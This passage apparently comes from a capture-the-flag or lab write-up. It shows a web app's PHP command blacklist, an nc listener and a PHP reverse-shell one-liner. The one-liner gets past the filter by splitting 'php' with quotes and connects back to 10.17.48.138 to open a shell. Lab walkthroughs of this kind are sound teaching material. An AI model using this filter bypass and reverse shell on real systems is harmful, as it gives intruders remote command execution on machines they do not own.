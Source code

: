 * The layout looks different. That is because the `ìndex.php` file was read and executed.
* We can now check the source code using `CTRL+U`.

<figure><img src="../../.gitbook/assets/8 (34).png" alt=""><figcaption></figcaption></figure>

* Now we know what pattern are being filterd.

```php
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```

* Let's set up a `nc` listener.

```
$ nc -nlvp 9999
Listening on [any] 9999...
```

* Now we have to provide a PHP reverse shell:

```
p'h'p -r '$sock=fsockopen("10.17.48.138",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```
